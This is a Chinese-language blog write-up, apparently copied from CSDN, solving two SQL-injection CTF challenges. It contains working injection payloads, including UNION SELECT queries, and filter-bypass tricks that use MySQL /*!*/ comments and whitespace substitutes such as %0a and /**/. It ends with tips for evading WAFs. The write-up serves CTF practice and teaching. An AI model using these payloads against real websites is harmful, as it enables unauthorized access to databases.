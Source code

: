<!--yml
category: 未分类
date: 2022-04-26 14:31:30
-->

# CTF解题笔记（2）_TravisZeng的博客-CSDN博客_ctf题解

> 来源：[https://blog.csdn.net/qq_34841823/article/details/54290089](https://blog.csdn.net/qq_34841823/article/details/54290089)

简单的sql注入：

这三道题目主要是检测绕过过滤的功底：

1.解题路径:http://ctf5.shiyanbar.com/423/web/

先提交1试试看：

![](img/491245c735308b3495b7c697b37ecb6d.png)

发现显示是正常的，然后再提交id=1':

![](img/45c59ad311419a6ed2935138eb9c67b6.png)

说明'是可以影响SQL语句的，并没有被过滤掉

然后我们尝试id=1' or ''=':发现空格和or关键字都没有被过滤，很好

![](img/e5db6d11cf21ccecff2bf5f709829b0c.png)

再尝试看and关键字，令id=1' and 1=1 or''='：发现报错，将and换成大写也不行，看来是被过滤掉了![](img/31d7fd4f5f1c9f88f713bb99ef757d73.png)  

接着尝试使用(),/**//*!*/等方法绕过，发现/*!关键字*/的方法是可以绕过的：

![](img/85830db8c7b731bf93aed6305fa807af.png)

于是开始猜测表名：id=' or /*! exists*/ (/*!select*/ * /*!from*/ admin) /*!and*/ ''=';表名不存在

![](img/4653e27c79122486b9e3f5f1445c28cc.png)

猜测表名为flag：成功！

![](img/69d4d92aa6c4ce592e73a08f1df40d38.png) 

猜测列名存在id和name：都是可以的

![](img/56fd8cf3bb482c97e4ed275932176091.png)

使用联合查询看列数：id=' /*!union*/ /*!select*/ 1,2 /*!from*/ flag /*!where*/ ''='

![](img/95940b26c511e99c1a4b94423bacf41e.png)

说明之前回显的id就是我们输入的参数而已

当我们构造id=' /*!union*/ /*!select*/ name /*!from*/ flag /*!where*/ ''='时却显示错误，

![](img/a5bc1a4b3c80889e3e04d733e44f7f84.png)

可能是出题者挖的一个坑，当构造id=' /*!union*/ /*!select*/ flag /*!from*/ flag /*!where*/ ''='

显示出flag

![](img/e0fd98baae5e52371ac96c7af7aeaa90.png) 

2.解题链接：http://ctf5.shiyanbar.com/web/index_2.php 

有了上一题的经验，我们先检测看这个到底过滤了什么：

分别输入'和' 可以判断空格是被过滤了的，我们可以知道，可以使用`%0a %0d %09 %0b /**/ /*!*/ /*!50000*/`来代替空格，这里我们选用/**/。

然后尝试or和and关键字以及union看看是否被过滤，发现都可以正常使用，甚至#都可以正常使用，简直神奇；于是构造：

id='/**/and/**/0=1/**/union/**/select/**/flag/**/from/**/flag#

![](img/77caad2593ed242b9efce9a16815281a.png) 

总结：

tip1：在Mysql中构造sql注入时，where后面的单引号完全可以直接使用`''=''`来闭合，表示永真，而不一定需要`'1'='1'`这种格式。

tip 2：当关键字被过滤掉的时候，可以使用/**/或者/*!*/括起来的方式来绕过检测过滤

tip 3：常用来绕过WAF或过滤函数以代替空格的字符有这些：`%0a %0d %09 %0b /**/ /*!*/ /*!50000*/`以及()

tip 4：在get型注入中，如果or被过滤，则可以使用|代替，如 `...where search=''|'1';`